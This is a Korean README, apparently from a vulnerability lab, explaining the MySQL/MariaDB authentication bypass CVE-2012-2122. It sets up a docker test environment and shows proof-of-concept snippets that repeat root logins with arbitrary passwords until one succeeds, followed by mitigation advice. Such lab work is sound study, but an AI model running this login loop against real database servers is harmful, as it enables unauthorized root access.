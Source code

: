 # CVE-2012-2122

> [배소정 (@baethwjd2)](https://github.com/baethwjd2)

<br/>

### 요약

-   CVE-2012-2122는 MySQL과 MariaDB의 특정 버전에서 발견된 **인증 우회** 취약점임
-   특정 버전의 MySQL은 비밀번호의 해시값을 memcmp 함수로 캐스팅하여 인증함
-   memcmp 함수는 -128 ~ 127 사이의 값을 반환하므로, 잘못된 비밀번호를 입력하더라도 1/256의 확률로 로그인에 성공할 수 있음
-   따라서 임의의 비밀번호로 로그인을 반복함으로써, 악의적인 공격자가 DB의 root 계정을 쉽게 획득할 수 있음

<br/>

### 환경 구성 및 실행

-   `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행 (취약점이 보고된 MySQL 5.5.22의 컨테이너 이미지 사용)
-   `pip install pymysql` 커맨드로 poc.py 실행을 위한 pymysql 패키지 설치
-   `python3 poc.py` 를 실행해 DB의 **root 계정**을 탈취할 수 있음. 유저 정보를 출력하여 root 계정으로 로그인이 됐는지 확인함

<br/>

### poc.py

1/256의 확률로 로그인에 성공할 수 있으므로, 충분한 횟수만큼 로그인을 반복 시행함

```
for i in range(1, 10001):
    password = str(i)
    conn = pymysql.connect(user=user, password=password, host=host, port=port, charset='utf8')
```

유저 정보를 확인하여 root 계정 로그인에 성공했음을 확인함

```
cursor.execute("SELECT user()")
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   해당 취약점을 통해 공격자는 root를 포함한 특정 사용자 계정에 로그인하여, 인가되지 않은 권한을 획득할 수 있음.
-   이러한 상황을 방지하기 위해, 가장 먼저 관리자는 DB 서버의 네트워크가 노출되지 않도록 노력해야 함. 즉, 인가되지 않은 액세스를 차단할 수 있도록 미리 서버를 설정해야 함. 그리고 주기적으로 서비스 취약점을 모니터링하고 패치해야 함.
